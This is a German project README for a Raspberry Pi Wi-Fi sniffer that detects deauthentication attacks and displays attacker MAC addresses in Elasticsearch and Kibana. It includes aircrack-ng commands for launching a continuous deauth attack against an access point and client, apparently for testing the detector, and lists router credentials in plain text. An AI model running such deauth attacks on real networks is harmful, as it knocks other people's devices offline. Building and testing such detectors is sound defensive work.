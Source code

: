 # Eingesetzte Technologien
- Pi-Sniff > Python-Skript (Scapy)
    - Schranke mit aircrack-ng ausloten
- Server-DB > Elasticsearch
- Server-GUI > Kibana

# Dashboard
- Pie-Chart
- Heat-Map (MAC-Adresse Angreifer nach Zeit in bestimmter Granularität)
- Bar-Chart (MAC-Adresse x # Packete absolut)
- Bar-Chart (MAC-Adresse x # Packete normalisiert)

# Zugangsdaten
## Router
- Web-UI: root:supersecurepassword
- WLAN: DancingRainbows:supersecurepassword

# Attack
## Monitor Mode starten
`airmon-ng start wlan0`

## MAC-Adressen von AP und Target herausfinden
`airodump-ng wlan0`

## Senden von Deauth-Packets
`aireplay-ng -0 0 -a <AP-MAC> -c <Target(Client)-MAC> wlan0`

# Python
## Install requirements
`pip install -r requirements.txt`

## Run
Skript muss mit `sudo` ausgeführt werden, um auf NIC zugreifen zu können.

# Docker
## Build image
`docker build -t pinkfluffyunicorn:dev -f "$(pwd)/Kali.Dockerfile" .`

## Start image
`docker run --privileged -it --network host pinkfluffyunicorn:dev /bin/bash`

## Aufräumen
Alle container zeigen

`docker ps`

Alle images zeigen

`docker images`

Bestimmte images löschen
(hashes durch `docker images` suchen)

`docker rmi imagehash1 imagehash2 imagehash3 ...`

oder mit Namen
`docker rmi pinkfluffyunicorn:dev`

# Docker Compose (wenn Image gebuildet wurde)

## .env

Beinhaltet Environment-Daten für das Docker-Compose-Skript.

## Run

`docker compose up -d`

## Attach

`docker attach <name>`
